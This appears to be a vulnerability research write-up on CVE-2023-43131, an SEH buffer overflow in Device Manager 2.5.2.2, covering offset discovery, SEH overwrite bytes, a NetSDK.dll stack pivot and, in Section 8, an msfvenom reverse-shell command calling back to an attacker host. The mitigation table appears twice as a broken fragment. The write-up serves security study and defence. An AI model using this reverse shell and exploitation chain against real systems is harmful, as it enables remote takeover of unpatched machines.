


# A Technical Analysis of CVE-2023-43131 in Device Manager 2.5.2.2

## SEH-Based Buffer Overflow Exploitation and Stack Pivoting on Windows x86

> **Author:** SubZero<br>
> **Type:** Vulnerability Research & Exploit Development<br>
> **Target Platform:** Microsoft Windows (x86)<br>
> **Impact:** Arbitrary Code Execution (RCE)

---

## Abstract

This research presents an in-depth technical analysis of **CVE-2023-43131**, a Structured Exception Handler (SEH) based buffer overflow vulnerability affecting **Device Manager version 2.5.2.2**. The vulnerability allows an attacker to overwrite the SEH chain through improper bounds checking, leading to full control over program execution flow.

The study documents the complete exploitation lifecycle, including crash analysis, offset discovery, SEH overwrite, gadget selection, stack pivoting, and shellcode execution. The results demonstrate that reliable remote code execution is achievable under default configurations due to the absence of modern exploit mitigations such as ASLR, SafeSEH, and NX within critical modules.

---

## 1. Introduction

Memory corruption vulnerabilities remain a critical attack vector in legacy and improperly hardened Windows applications. Despite advances in compiler- and OS-level protections, applications that rely on unsafe memory operations without modern mitigations are still susceptible to classical exploitation techniques.

This research focuses on CVE-2023-43131, highlighting how an SEH-based buffer overflow can be reliably exploited on a modern Windows system when defensive mechanisms are absent or misconfigured. The vulnerability serves as a practical case study for understanding SEH exploitation and stack pivot techniques in real-world binaries.

---

## 2. Vulnerability Description

The vulnerable component within Device Manager 2.5.2.2 fails to enforce proper bounds checking on user-supplied input. When an excessively long string is processed, stack memory beyond the allocated buffer is overwritten, corrupting the Structured Exception Handler (SEH) chain.

Upon triggering an exception, the Windows exception dispatcher references the attacker-controlled SEH record, allowing redirection of execution flow to arbitrary instructions within the process address space.

---

## 3. Experimental Setup

### 3.1 Target Environment

* Windows 10 (32-bit process context)
* Device Manager version 2.5.2.2

### 3.2 Analysis Tooling

* x32dbg (runtime analysis)
* Immunity Debugger with mona.py
* Kali Linux (payload generation)

---

## 4. Crash Analysis and Offset Determination

Initial fuzzing resulted in consistent application crashes, confirming stack corruption. A cyclic pattern was used to identify the precise overwrite location within the SEH chain.

### 4.1 Initial Crash Evidence

**Figure 1:** Application crash after sending oversized input, confirming stack corruption and uncontrolled memory overwrite.




```
!mona pattern_create 0x1000
```

**Figure 2:** Cyclic pattern generation used to identify SEH overwrite offset.

`


Analysis of the crash state revealed controlled pattern values within the SEH record. Using mona's offset calculation functionality:

```
!mona pattern_offset 72423772
```

**Figure 3:** Offset calculation showing SEH overwrite at byte 1312.


The SEH overwrite was determined to occur at an offset of **1312 bytes**, providing a deterministic exploitation primitive.

---

## 5. Module Analysis and Mitigation Assessment

Reliable exploitation requires predictable instruction addresses. A comprehensive module inspection revealed that `NetSDK.dll` lacked essential security mitigations.

```
!mona modules
```

**Figure 4:** Module protection analysis highlighting NetSDK.dll with disabled ASLR, SafeSEH, and NX.


| Mitigation | Status   |
| ---------- | -------- |
| ASLR       | Disabled |
| SafeSEH    | Disabled |
| NX         | Disabled |
| Rebase     | Disabled |

The absence of these protections enables direct reuse of instruction sequences for exploitation.

-----------|--------|
| ASLR | Disabled |
| SafeSEH | Disabled |
| NX | Disabled |
| Rebase | Disabled |

The absence of these protections enables direct reuse of instruction sequences for exploitation.

---

## 6. SEH Exploitation Strategy

### 6.1 SEH Chain Manipulation

The Next SEH (nSEH) field was populated with a short jump instruction, redirecting execution beyond the SEH handler region.

**Figure 5:** SEH chain overwritten with attacker-controlled values (BBBB / CCCC).


```
EB 10 90 90
```

The SEH handler itself was overwritten with a **POP POP RET** sequence located within `NetSDK.dll`, ensuring controlled redirection during exception dispatch.

---

## 7. Stack Pivoting Technique

Following SEH redirection, the stack pointer (ESP) did not reference a reliable execution region. To resolve this, a stack pivot was performed.

### 7.1 Stack Pivot Gadget Discovery

**Figure 6:** Identified stack pivot gadgets within NetSDK.dll suitable for ESP relocation.


### 7.2 Stack Pivot Execution

The following instruction sequence was selected:

```
ADD ESP, 0x1F54
RET
```

This pivot relocates ESP into a controlled buffer region.

**Figure 7:** ESP successfully pivoted into attacker-controlled memory ("DDDD...").


---

## 8. Payload Construction and Shellcode Execution

A reverse TCP shell payload was generated using `msfvenom` and encoded to avoid problematic characters.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.197.128 LPORT=1234 -f py --bad-chars
```

**Figure 8:** Generated reverse shell payload in Python format.


The payload was placed after the stack pivot landing zone, ensuring uninterrupted execution.

---

## 9. Results and Impact

Successful exploitation resulted in a reverse shell callback to the attacker-controlled system.

**Figure 9:** Reverse shell successfully established and command execution verified.


The exploit consistently achieved remote code execution across multiple test runs, confirming reliability.

---

## 10. Security Implications and Mitigations

To mitigate vulnerabilities of this class, software vendors should:

* Enforce strict input validation and bounds checking
* Compile binaries with `/GS`, `/DYNAMICBASE`, and `/NXCOMPAT`
* Enable SafeSEH for all modules
* Conduct regular secure code audits and fuzz testing

---

## 11. Conclusion

This research demonstrates that CVE-2023-43131 is a fully exploitable SEH-based buffer overflow capable of yielding reliable remote code execution. The case study reinforces the continued relevance of classical exploitation techniques when modern defensive controls are absent.

The findings emphasize the importance of secure development practices and defense-in-depth strategies to prevent memory corruption vulnerabilities from escalating into full system compromise.

---

## References

* CVE-2023-43131
* Microsoft Structured Exception Handling Internals
* mona.py Exploit Development Toolkit
